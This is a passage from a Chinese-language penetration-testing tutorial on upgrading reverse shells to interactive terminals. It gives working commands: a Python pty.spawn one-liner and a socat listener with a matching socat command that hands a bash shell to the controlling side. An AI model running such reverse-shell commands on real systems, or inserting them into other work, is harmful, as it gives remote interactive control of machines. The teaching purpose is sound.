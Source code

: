#### 2、普通反弹 shell 中生成 pty

这里的普通反弹 shell 指的是连通类非交互式或者半交互式反弹 shell ，利用 python 执行如下命令，即可生成 pty ，相当于把上面 的一句话拆成了两部分使用，还是比较常见的

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](../../.gitbook/assets/image%20%28451%29.png)

假如系统中没有 python 环境，比如 docker 容器中，那么使用 script 命令也是可以

### 5、完全交互式

我们有了交互式的反弹 shell , 已经非常接近正常终端，但是在使用的过程中，还是发现了很多不同，比如无法用 tab 补齐命令 , 无法删除命令， ctrl+c 会直接退出了 shell 。如何才能打造出和正常终端一样操作的反弹 shell 呢？其实还是有办法的

#### 1、socat

socat 是一款优秀的反弹 shell 工具，其生成的反弹 shell 和普通终端一样易用。在控制端运行

```text
socat file: tty ,raw,echo=0 TCP-L:8080
```

在被控端运行：

```text
socat tcp-connect:127.0.0.1:8080 exec:"bash -li",pty,stderr,setsid,sigint,sane
```

在 socat 反弹 shell 里，使用 tab 补齐 whoami 命令，感觉和正常终端没有什么区别

![](../../.gitbook/assets/image%20%28448%29.png)
